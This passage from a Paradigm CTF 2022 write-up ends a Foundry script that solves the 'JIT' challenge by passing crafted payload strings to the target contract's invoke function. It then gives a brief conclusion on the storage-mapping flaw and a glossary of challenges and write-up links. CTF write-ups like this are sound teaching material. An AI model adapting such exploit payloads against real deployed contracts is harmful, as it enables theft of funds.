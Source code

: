 ```solidity
		vm.startBroadcast();
		Setup s = Setup(vm.envAddress("SETUP_ADDR"));
		JIT jit = s.TARGET();
		
		jit.invoke("[#######################]", "");
		jit.invoke("########################[]", "");
		jit.invoke("[################\x64S[\xff", "");
		
		vm.stopBroadcast(); 
	} 
}
```

### JIT - Conclusion
Just-In-Time shows us that simplicity is king and that you should avoid using storage mappings for on the fly calculations. Not only is it vulnerable but it costs a lot of gas!

This challenge also taught me that I should never give up and always look for stupid stuff I missed. I was stuck for several hours because I missed the fact that `JIT` used mappings for certain critical data structures and didn't take precautions to reset them in-between calls. Making a detailed list of assumptions I had and checking them could've helped me discover this sooner.


## Glossary
The following is a breakdown of the Paradigm CTF 2022 with links to respsective
write-ups. Challenges are sorted by total solves. Credit to [0xfoobar's thread](https://twitter.com/0xfoobar/status/1561529252029276161) for links to some of the write-ups.

- ✅ Means personally solved (for 0xMonaco just means participated)
- ❌ Did not solve

**EVM (Solidity) Challenges:**

- ✅ 0xMonaco ([meta thread](https://twitter.com/abdulsamijay/status/1561821616778141696), [winning car by 0age](https://twitter.com/z0age/status/1561685707650990084), [thread 1](https://twitter.com/sudolabel/status/1561512456291172352))
- ❌ Solidity Underhanded 2022
- ❌ Fun Reversing Challenge
- ❌ [Stealing Sats](https://hackmd.io/@theori/r1gnaGNks#Stealing-Sats)
- ❌ [Electric Sheep](https://ventral.digital/posts/2022/8/22/paradigm-ctf-2022-electric-sheep)
- ✅ [Just-in-Time]({% post_url 2022-08-22-paradigm-ctf-2022-write-up-collection %}#just-in-time-jit-)
- ❌ Trapdoooor
- ✅ [Hint Finance]({% post_url 2022-08-22-paradigm-ctf-2022-write-up-collection %}#hint-finance-) 🏅 (I got first blood)
- ❌ [Trapdooor](https://twitter.com/elyx0/status/1561532604519747584)
- ❌ Lockbox 2 ([Stage 4 & 5](https://twitter.com/brockjelmore/status/1561526932860153856))
- ✅ [Vanity](https://twitter.com/danielvf/status/1561508004423471104)
- ✅ Sourcecode 
- ✅ [Merkledrop](https://jeiwan.net/posts/my-paradigm-ctf-solutions/)
- ✅ [Rescue](https://jeiwan.net/posts/my-paradigm-ctf-solutions/)
- ✅ Random
